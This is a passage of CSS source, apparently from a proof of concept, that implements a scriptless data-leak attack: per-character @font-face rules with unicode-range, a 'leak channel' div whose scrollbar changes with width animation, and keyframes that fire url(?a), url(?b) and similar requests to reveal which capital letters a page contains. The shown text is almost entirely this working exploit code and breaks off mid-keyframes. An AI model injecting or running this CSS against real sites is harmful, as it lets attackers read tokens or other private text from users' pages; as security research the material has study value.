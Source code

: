 ```css
src: local("Comic Sans MS");
unicode-range: U+38;
font-style: monospace;
}
@font-face {
font-family: has_9;
src: local("Comic Sans MS");
unicode-range: U+39;
font-style: monospace;
}
@font-face {
font-family: rest;
src: local("Courier New");
font-style: monospace;
unicode-range: U+0-10FFFF;
}

div.leak {
overflow-y: auto; /* leak channel */
overflow-x: hidden; /* remove false positives */
height: 40px; /* comic sans capitals exceed this height */
font-size: 0px; /* make suffix invisible */
letter-spacing: 0px; /* separation */
word-break: break-all; /* small width split words in lines */
font-family: rest; /* default */
background: grey; /* default */
width: 0px; /* initial value */
animation: loop step-end 200s 0s, trychar step-end 2s 0s; /* animations: trychar duration must be 1/100th of loop duration */
animation-iteration-count: 1, infinite; /* single width iteration, repeat trychar one per width increase (or infinite) */
}

div.leak::first-line {
font-size: 30px; /* prefix is visible in first line */
text-transform: uppercase; /* only capital letters leak */
}

/* iterate over all chars */
@keyframes trychar {
0% {
font-family: rest;
} /* delay for width change */
5% {
font-family: has_A, rest;
--leak: url(?a);
}
6% {
font-family: rest;
}
10% {
font-family: has_B, rest;
--leak: url(?b);
}
11% {
font-family: rest;
}
15% {
font-family: has_C, rest;
--leak: url(?c);
}
16% {
font-family: rest;
```